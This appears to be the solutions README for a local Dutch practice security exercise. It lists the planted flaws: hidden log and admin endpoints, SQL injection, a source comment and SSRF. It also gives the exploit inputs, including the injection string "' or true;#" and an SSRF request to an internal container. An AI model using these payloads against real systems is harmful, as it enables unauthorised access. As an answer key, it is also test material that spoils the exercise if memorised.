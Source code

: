 # Solutions

## vulns
- hidden endpoints with log and admin interface
- SQL injection
- comment in source code
- SSRF bij search field

## how to find
```
inspect op hoofdpagina voor comment
```

```
http://localhost:8080/logs
```

```
http://localhost:8080/administrator
enable admin
' or true;#
```

```
Tip: 1 van de flaggen draait onder http://oefentoets-frontend-1:8002 maar is extern niet beschikbaar:
http://oefentoets-frontend-1:8002
details request in shop aanpassen:
http://localhost:5050/fetch-data?url=http://oefentoets-frontend-1:8002
```


## debugging
when Docker is stuck:
```
docker-compose down -v 
docker volume prune -f 
docker-compose up --build
```

evtl met container connecten:  
docker exec -it oefentoets-frontend-1 /bin/sh